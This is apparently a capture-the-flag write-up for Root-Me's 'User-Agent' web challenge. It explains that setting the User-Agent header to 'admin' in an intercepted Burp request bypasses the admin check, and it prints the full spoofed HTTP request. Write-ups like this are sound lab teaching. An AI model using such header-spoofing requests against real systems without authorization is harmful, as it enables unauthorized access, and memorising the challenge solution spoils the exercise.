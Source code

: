 # Question
User-Agent

## Description
The admin is really dumb

## Solution

This one was really simple, we have to verify as admin user so just intercept the burp request and change user to admin which gives the flag
` GET /web-serveur/ch2/ HTTP/1.1    
Host: challenge01.root-me.org    
Cache-Control: max-age=0    
Accept-Language: en-US,en;q=0.9    
Upgrade-Insecure-Requests: 1    
User-Agent: admin    
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7    
Accept-Encoding: gzip, deflate, br     
Cookie: _ga=GA1.1.1448696352.1759118406; _ga_SRYSKX09J7=GS2.1.s1759121098$o2$g1$t1759122883$j20$l0$h0    
Connection: keep-alive  
`
